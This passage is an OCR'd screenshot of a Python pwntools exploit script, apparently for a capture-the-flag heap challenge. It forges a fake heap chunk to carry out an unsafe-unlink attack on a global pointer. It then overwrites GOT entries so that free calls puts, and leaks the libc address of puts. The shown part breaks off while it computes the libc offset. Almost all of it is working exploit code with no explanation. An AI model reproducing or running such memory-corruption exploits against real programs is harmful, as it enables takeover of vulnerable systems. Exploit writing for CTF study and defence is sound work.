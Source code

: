 ```python
p.recvuntil("OK")
time.sleep(1)

log.info("Creating chunk2...")
create(0x30)
p.recvuntil("OK")
time.sleep(1)

log.info("Creating chunk3...")
create(0x80)
p.recvuntil("OK")
time.sleep(1)

log.info("Creating fake chunk...")
payload = p64(0) + p64(0x30) + p64(0x602140 + 16 - 0x18) + p64(0x602140 + 16 - 0x10) + 'a' * 0x10 + p64(0x30) + p64(0x90)
edit(2, len(payload), payload)
p.recvuntil("OK")
time.sleep(1)

log.info("Now we have fake chunks, just free chunk3 to change global pointer...")
delete(3)
p.recvuntil("OK")
time.sleep(1)
log.success("Global pointer has been changed!")
time.sleep(1)

log.info("Finding address in program...")
free_got = elf.got["free"]
puts_got = elf.got["puts"]
atoi_got = elf.got["atoi"]
puts_plt = elf.plt["puts"]
time.sleep(1)
log.success("free@got : 0x%x" % free_got)
log.success("puts@got : 0x%x" % puts_got)
log.success("atoi@got : 0x%x" % atoi_got)
log.success("puts@plt : 0x%x" % puts_plt)
time.sleep(1)

log.info("Overwriting global pointers...")
payload = 'a' * 8 + p64(free_got) + p64(puts_got) + p64(atoi_got)
edit(2, len(payload), payload)
p.recvuntil("OK")
log.success("Complete!")
time.sleep(1)

log.info("Changing free@got --> puts@plt...")
payload2 = p64(puts_plt)
edit(0, len(payload2), payload2)
time.sleep(1)
p.recvuntil("OK")

log.info("Leaking address...")
delete(1)
p.recvuntil("FAIL\n")
puts_addr = u64(p.recv(6) + '\x00\x00')
log.success("puts address : 0x%x" % puts_addr)
time.sleep(1)
p.recvuntil("OK")

log.info("Finding offset in libc...")
time.sleep(1)
puts_offset = libc.symbols["puts"]
```